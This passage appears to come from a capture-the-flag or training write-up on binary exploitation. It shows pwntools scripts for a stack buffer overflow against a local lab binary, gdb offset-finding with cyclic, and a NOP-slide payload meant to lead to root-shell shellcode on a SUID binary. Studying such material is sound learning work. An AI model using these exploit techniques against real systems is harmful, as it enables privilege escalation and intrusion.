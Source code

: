 ```python
#!/usr/bin/env python

from pwn import *

connect = remote('127.0.0.1', 1337)

print(connect.recvn(18))

payload = "\x41" * 32 + p32(0xdeadbeef)

connect.send(payload)

print(connect.recvn(34))
```

Follows the same methodology as before - just a practical demonstration

--------------------------------------------------------------------------------

### Shellcraft

ASLR: Address Space Layout Randomization

```
- Randomises where in memory the executable is loaded each and everytime it is run
```

```bash
cyclic 200 > payload
gdb intro2pwnFinal
# r < payload
# EIP 'taaa'
```

Developing an exploit to gain a root shell by exploiting a binary file with its SUID bit set.

Rather than attempt to get another function to run like it was done earlier - we can add custom shellcode which will spawn a reverse shell on our machine

To do this we must find the `EIP` as before and direct it to the stack where we placed our code.

The top of the stack named `ESP` points to the top of the stack - and we need an offset to the `ESP` location.

Finding the offset is a matter of trial-and-error. In this scenario, it is given as 200

In assembly, there is an instruction called `NOP` which is `0x90` in hex form and passes the `EIP` to the next space in memory.

By assigning a large amount of `NOPS` we can make a slide down which our shellcode is located.

Before using the shellcode, we will use `0xcc` which is the breakpoint instruction

```python
#!/usr/bin/env python

from pwn import *

padding = cyclic(cyclic_find('taaa'))

eip = p32(0xffffd510 + 200)

nop_slide = "\x90" * 1000

shellcode = "\xcc"

payload = padding + eip + nop_slide + shellcode

print(payload)
```